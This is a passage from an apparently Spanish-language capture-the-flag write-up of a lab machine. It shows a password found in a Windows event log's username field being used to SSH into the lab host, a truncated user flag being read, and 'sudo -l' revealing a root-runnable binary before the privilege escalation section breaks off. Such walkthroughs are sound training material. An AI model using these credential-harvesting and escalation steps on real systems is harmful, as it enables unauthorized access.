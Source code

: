 ```shell
      "Execution": {
        "#attributes": {
          "ProcessID": 628,
          "ThreadID": 6800

```

Y detectamos algo extraño, alguien ha intentado iniciar sesión como el usuario `Def@ultf0r3nz!csPa$$`

`"TargetUserName": "Def@ultf0r3nz!csPa$$"`

Tiene toda la pinta de contraseña, y probando como el usuario `smorton`...

```shell
$ ssh smorton@10.129.228.203
smorton@10.129.228.203's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-137-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 13 Aug 2024 08:15:41 PM UTC

  System load:  0.0               Processes:             231
  Usage of /:   59.4% of 3.97GB   Users logged in:       0
  Memory usage: 13%               IPv4 address for eth0: 10.129.228.203
  Swap usage:   0%


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

smorton@investigation:~$ id
uid=1000(smorton) gid=1000(smorton) groups=1000(smorton)
```

Y podemos leer la flag de usuario
```shell
smorton@investigation:~$ cat user.txt 
023b407268bf8bc00...
```

# Privilege Escalation
Como `smorton` detectamos que podemos ejecutar un binario como el usuario `root`

```shell
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```
